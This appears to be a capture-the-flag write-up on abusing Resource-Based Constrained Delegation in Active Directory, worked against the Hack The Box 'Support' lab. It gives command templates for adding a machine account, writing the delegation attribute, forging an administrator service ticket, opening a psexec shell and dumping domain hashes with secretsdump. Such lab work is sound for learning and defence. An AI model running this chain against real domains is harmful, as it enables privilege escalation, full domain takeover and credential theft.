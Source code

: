------------

### AD attacks-:

------------

### Abuse Resource-Based Constrained Delegation to Gain Unauthorized Access

--------------

- In Resource-Based Constrained Delegation (RBCD), we configure the target resource e.g. a database or file server to specify which service accounts are permitted to access it on behalf of users. For example, a database service can be set up to allow specific services, like a web service, to act on behalf of users through assigned security permissions.
- This differs from unconstrained and constrained delegation. With unconstrained delegation, service accounts with delegation enabled can access any resource on behalf of users. Similarly, with constrained delegation, service accounts with delegation enabled can access a specific list of resources.
- Requirement-:

```
BCD is configured by setting the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.
-To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as GenericAll, GenericWrite, and WriteDACL.
```

- User `SUPPORT@SUPPORT.HTB` which the user I owned before is a member of a group called `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB`. The group itself have full control to a computer called DC.SUPPORT.HTB, so in other words user SUPPORT have full control to DC.SUPPORT.HTB including write permission.
  
![image](https://github.com/user-attachments/assets/4b44f38a-49c4-45fb-b68f-ddf8a3f1442b)

- Exploiting with rbcd tool
- Impacket tool `[AddCOmputer]`Syntax-:

```bash
addcomputer.py -computer-name 'password' -computer-pass 'password' -dc-ip [ip] '[domain]/[username]:[password]'
```

![image](https://github.com/user-attachments/assets/bc19a1ba-5325-444a-9a0d-803f1128bcf9)

- Then, we use the RBCD python script to add our new computer to the msds-allowedtoactonbehalfofotheridentity attribute list.[RBCD tool](https://github.com/AlteredSecurity/RBCD.git)

![image](https://github.com/user-attachments/assets/e916c933-d028-4a30-9580-1de27fdd9790)

- Syntax-:

```
python3 rbcd.py 10.10.11.174 -u [domain]\\[user] -p '[password]' -t DC -f [newly created computer]
```
![image](https://github.com/user-attachments/assets/4d39f81b-92fa-4ae4-9e0a-f6b6ab2757d9)

- Now, we have what it needs to request a service ticket; we will use the getST.py script from impacket instead of Rubeus to request the service ticket as administrator.

```bash
python3 getST.py -spn cifs/[object with unconstrained delegation over] -impersonate [user] -dc-ip [ip] '[domain]/[user]:[password]'
```

![image](https://github.com/user-attachments/assets/253b6ac4-0518-46c5-afc0-bdf8f9d90c10)

![image](https://github.com/user-attachments/assets/a4cb3279-56f8-4360-b567-7a5336a1a96c)

- When the ticket is issued, we can use by setting it to variable `KRB5CCNAME` for `impacket-psexec`.

Syntax-:

```bash
KRB5CCNAME=[ccache file name [endswith .ccache] impacket-psexec [domain]/[user]@[object] -k -no-pass
```

![image](https://github.com/user-attachments/assets/68bf410e-228d-4ade-9698-4afec915d1fb)

- Dumping the hashes with impacket-secretsdump-:
 - You can set the `KRB5CCNAME` as an environmental variable
   ```bash
   export KRB5CCNAME=$(pwd)/administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
   ```
  
- Syntax-:

```bash
impacket-secretsdump -k -target-ip [ip] [domain name]
```
![image](https://github.com/user-attachments/assets/bed765e7-218d-4e65-9afc-e0f156620534)

- Pass the hash with Evil-winrm -:

![image](https://github.com/user-attachments/assets/0f8af80b-c32a-4782-a63d-0f76e1e93cf7)

------------------------






